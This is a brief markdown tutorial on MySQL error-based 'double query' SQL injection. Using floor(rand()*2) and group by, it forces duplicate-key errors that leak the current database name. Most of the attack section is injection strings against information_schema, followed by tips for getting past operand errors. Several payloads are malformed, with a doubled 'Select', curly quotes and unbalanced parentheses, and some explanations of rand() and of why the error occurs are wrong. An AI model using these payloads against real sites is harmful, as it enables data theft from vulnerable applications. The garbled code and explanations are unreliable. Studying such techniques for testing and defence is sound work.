 
# Error based SQLi
**TL;DR we extract info via forced error messages. We do this by causing multiple entries for the same temp table ID.**  
[Source_1](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c)
Bu putting together a query which will create a temporary table by generating int 0-1 for each row of data, ad then grouping them by whichever int this happens to be. If the values end up the same form repeated runs, an error is produced which concede information pertaining to whatever it was we were selecting from.

So the two trick parts, count(*) and rand() are both needed so that MySQL actually runs this multiple times, instead of just optimizing past it. But the trick is to create a temporary table that has duplicate keys, and let MySQL tell us about the value of that key in an error.
EG

### `Select count(*), Select floor(rand()*2)a from users group by a`
<pre>
+----------+---+  
| count(*) | a |  
+----------+---+  
|       10 | 0 |  
|        3 | 1 |  
+----------+---+  
</pre>
After running repeatedly eventually all values will end up either 0 or 1, thus erring out

`Count(*)` – displays number of rows in table  
`Floor()` – reduces a decimal to the floor (nearest possible integer)  
`Rand()*2` – generates a random decimal between 0 and 1, the *2 adds   another integer so it becomes between 0 and 2  
`Group by` – will aggregate the same values in the column, in this case the assigned alias is “a”
Further enumeration can be carried out by going after  information_schema.tables:

### `' or (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)#`  
  
  
`concat` concatenates 2 strings and `database()` pulls the name of the current DB, thus we concatenate current DB along with "a" from info schema

when this eventually errors out,as you probably guessed, the current db name will be yielded in the error.  

We may get an error regarding too many columns for operand if the injection vector contains `AND` as it operates on 2 operands. We can navigate out of this by nesting our entire existing query string, thus making the whole thing 1 table for a selectstatement work on, with alias `b`

`and (select 1 from (Select count(*),concat((select database()),”+”, Select floor(rand()*2)a from information_schema.tables group by a)b`

We can play aroun with other commands as below:

`' or (select 1 from (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)b)#` 

_'Operand should contain 1 column(s)' = prepend `(select 1`  
'Subquery returns more than 1 row' = keep running the query until error!_

